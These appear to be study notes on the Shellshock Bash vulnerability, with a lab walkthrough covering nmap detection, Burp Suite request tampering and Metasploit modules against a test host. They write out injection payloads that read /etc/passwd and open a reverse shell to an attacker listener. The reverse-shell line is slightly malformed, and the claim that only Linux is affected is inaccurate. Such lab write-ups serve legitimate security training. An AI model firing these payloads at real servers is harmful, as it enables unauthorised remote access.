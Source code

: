 - Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allows an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.
- The Shellshock vulnerability was discovered by Stephane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.
- Bash is a \*Nix shell that is a part of the GNU project and is the default shell for most Linux distributions.
- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: `() { :; };`
- This vulnerability only affects Linux as Windows does not utilize Bash as it is not a \*Nix based operating system.
- In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

Exploitation
- In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.
- In the context of an Apache web sever, we can utilize any legitimate CGI scripts accessible on the web server.
- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.
- This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.
- The most effective method to exploit the shellshock vulnerability is to inject the characters in the user-agent HTTP header, and then specify the other commands that we would like to execute after those characters.
- Manual exploitation can be performed using a proxy tool, like Burp Suite, ZAP or Caido.

Practical Demonstration
- `ifconfig`
- `nmap -sV 10.10.10.3`
- The Nmap scan performed by us was to determine if there is an Apache web server being hosted on the target device.
- Our next step will be to manually verify that the web server is being hosted on the specified port, using a web browser.
- There is a timer available on the web page, which is not being rendered client-side, we can check the page source to verify that there is a publicly accessible CGI script, being stored at the root of the server, `10.10.10.3/gettime.cgi`, which is being executed to display the timer.
- The CGI script is passing commands to Bash to reflect the remaining time on the timer, and as such can be utilized as an input vector.
- We can check if the target system is vulnerable to the Shellshock vulnerability using a Nmap script called "http-shellshock".
- `nmap 10.10.10.3 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`
- The script argument "http-shellshock.uri" here is used to specify the endpoint to check for the vulnerability's presence.
- Manual Exploitation using Burp Suite
	- Exploitation here will be performed using Burp Suite, in which we can first intercept the request using the Interceptor module, with either the web browser provided by Burp Suite, or by setting up a proxy for our browser using FoxyProxy.
	- Once we have intercepted the request made by the browser to the `http://10.10.10.3/gettime.cgi` endpoint, we can send the request to the Repeater module.
	- In the Repeater module, we can remove the parameter present for the User-Agent request field, and replace it with the characters present in the vulnerability's payload, followed by the command we want to execute:
		- `() { :; }; echo; echo; /bin/bash -c 'cat etc/passwd'`
	- We can then send the request to the target server, and inspect the response to verify that the command we intended to execute has been executed.
	- Attempting to get a reverse shell to the target system:
		- First of all, we will set up a listener on our attacker machine using netcat.
			- `nc -nvlp 1234`
		- Then we will edit the parameter we set in the User-Agent request field, to execute an interactive bash shell and redirect its output to the attacker machine, the IP address we specify in the command here would be our LHOST's IP address. 
			- `() { :; }; echo; echo; /bin/bash - 'bash -i>&/dev/tcp/10.10.10.2/1234 0>&1`
		- Now, we have a reverse shell on the machine, present on our netcat listener.
- Automated Exploitation using Metasploit Framework
	- `service postgresql start && msfconsole`
	- `search shellshock`
	- `use auxiliary/scanner/http/apache_mod_cgi_bash_env`
	- `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
	- `options`
	- `set RHOSTS 10.10.10.3`
	- `set TARGETURI /gettime.cgi`
	- `exploit`
	- Meterpreter Session
		- `sysinfo`